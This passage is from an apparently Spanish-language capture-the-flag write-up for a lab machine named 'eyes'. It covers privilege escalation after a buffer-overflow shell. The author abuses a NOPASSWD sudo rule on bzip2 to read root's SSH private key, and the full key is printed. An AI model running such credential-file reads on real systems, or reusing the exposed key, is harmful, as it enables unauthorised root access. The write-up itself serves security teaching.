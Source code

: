 ¡Qué bien! Hemos sido capaces de explotar el **`BoF`** encontrado y ejecutar el binario de **`Bash`** para obtener una **`Shell`** como **`monica`**.

### Subida de privilegios #2
Ahora que ya estamos como **`monica`** podemos pasar a obtener el **`control total`** de la máquina, para ello comenzaré por ver los comandos privilegiados que **`monica`** puede ejecutar en esta máquina:

```sh
monica@eyes:/opt$ sudo -l
Matching Defaults entries for monica on eyes:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User monica may run the following commands on eyes:
    (ALL) NOPASSWD: /usr/bin/bzip2
```

Vemos que podemos ejecutar **`BZip2`** como cualquier usuario sin la necesidad de una contraseña, esto incluye a **`root`**.

Para explotar este permiso mal configurado, busqué en [**`GTFOBins`**](https://gtfobins.github.io/gtfobins/bzip2/#sudo) y descubrí que podía leer cualquier archivo de la máquina. Por lo tanto, intenté leer la la **`id_rsa`** de **`root`**:

```sh
monica@eyes:/opt$ sudo bzip2 -c /root/.ssh/id_rsa | bzip2 -d
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEArFKlwNcXIsZLyj2E4waArCaGEOYVJxX50k4mF81nzPtiIgX+32e9
sMfZd6oDpovRq2hEE8TKqdfHogyvpVHV2wBs/BLOAajO63GnFX8dAoBi/yzhnyYXgrNE9b
Cs5D6itQVBxC1EINy1TS67T14+jqK+9UNWdfQC8VlENBeaVbYI3vUSxQCbRqs92nQLrSVM
hYOa0zhYdWlkCH46aprZi1OTe4ZvSfuzYU3+tmhonwiYMyeAYCSEsnkCeUTF4zke9kRovP
upbKiPWoYHEKXPWYCDJ9xOD/K1yMsK8YJ2rOqyr5TkyO5HdEGZxj8MFMTFLyeyFG2kUHYy
llW2WQoqZQAAA8DTPxkj0z8ZIwAAAAdzc2gtcnNhAAABAQCsUqXA1xcixkvKPYTjBoCsJo
YQ5hUnFfnSTiYXzWfM+2IiBf7fZ72wx9l3qgOmi9GraEQTxMqp18eiDK+lUdXbAGz8Es4B
qM7rcacVfx0CgGL/LOGfJheCs0T1sKzkPqK1BUHELUQg3LVNLrtPXj6Oor71Q1Z19ALxWU
Q0F5pVtgje9RLFAJtGqz3adAutJUyFg5rTOFh1aWQIfjpqmtmLU5N7hm9J+7NhTf62aGif
CJgzJ4BgJISyeQJ5RMXjOR72RGi8+6lsqI9ahgcQpc9ZgIMn3E4P8rXIywrxgnas6rKvlO
TI7kd0QZnGPwwUxMUvJ7IUbaRQdjKWVbZZCiplAAAAAwEAAQAAAQEAgq5ajReQsAp5R3HH
6PLxeZvtZ7tUp0N/JQGm2b4nzceF8A9j7cAalom4XYtNIWw/ISH9HpDKsGq3NikwusqIx4
BXJgKMv61o3hxefWrccR0z9hfvMmYMxk11Km1FcAIgGe9WpJM/azx1MYcS/WmXP0wkTJM4
alMWODleA7Myk3QuG/jwVEZE37xaJHPwTpv9VRbqIjqw9XQbGvArzyuAsGWtMMMpZ3zwx5
LuthcWa2B0u4ND+KCi6vk/phwtoHJL26FiCFHdNUda7UgssdBQ0jby/0wdHK4BvwooZS6v
23Ly1Lw37prz8GN8S504Xa5zKG0St1Xb+rT77lRDOsfTgQAAAIEAjbYIgPvhTt3ZS+ne8R
iDgwrIOZIKCwb+s5o5F0vH0c/++s+weAghl+Fn8QfgCAMHapEZmyKjvLbixUT2B8F765S4
6omR8PD3i0Rr0j+pbBz9jNga/+XJjctLF+atU3aG0tB1Nc5Z/+eGtHjL1UJPNRaHtyb3zt
gOvMAN/5ZR8sMAAACBANl6TrhqiJaQcOdOT05Y4FxSh4r4ng2TTd5k1B9d2lSIVKeviKtj
L4QDlT/uzE6Rf0bNgunP+qT5YjB4ag/17sm7GDzSd+8MDnkeRTDEtHjPwLEHUYDyNl0/wS
9B+rlHu84WMYexmltA30PjAUQXaztYcKortlBHF8PRqHcatJaJAAAAgQDK2MGRmyabimXN
Ursppl+JsMn/xvaUj6AvlTmdyH7rGmjwa4s9OP503AX59/pRyyhGOuPyaiWR8kNp5YOkH0
Zv8bGSSWUP3b7ScjgCMVaXXVmEgG+feZyf1swM2WwQVZzs152wZcrK3hFG/vIFlFwcDD3y
pN2NMCkY0EFGqmz9/QAAAAlyb290QGV5ZXM=
-----END OPENSSH PRIVATE KEY-----
```
